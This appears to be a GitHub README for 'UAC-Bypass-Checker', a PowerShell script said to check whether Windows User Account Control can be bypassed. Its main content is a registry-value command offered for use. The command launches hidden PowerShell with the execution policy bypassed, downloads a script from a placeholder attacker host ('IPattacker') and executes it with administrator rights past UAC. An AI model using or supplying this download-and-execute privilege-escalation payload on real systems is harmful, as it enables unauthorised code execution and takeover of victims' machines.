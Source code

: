 # UAC-Bypass-Checker
This is a Powershell script made to check if you can bypass UAC.

----------IMPORTANT----------

Change the CHANGETHIS username to your actual username LINE 17 & LINE 21

You can use the following command to download and execute a powershell script as an administrator bypassinc UAC (change the attacker IP & script.ps1 for what you need).

```
$RegValue = "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -ep Bypass -windowstyle hidden -nop iex (New-Object Net.WebClient).DownloadString('http://IPattacker/script.ps1'); Invoke-Function"
```
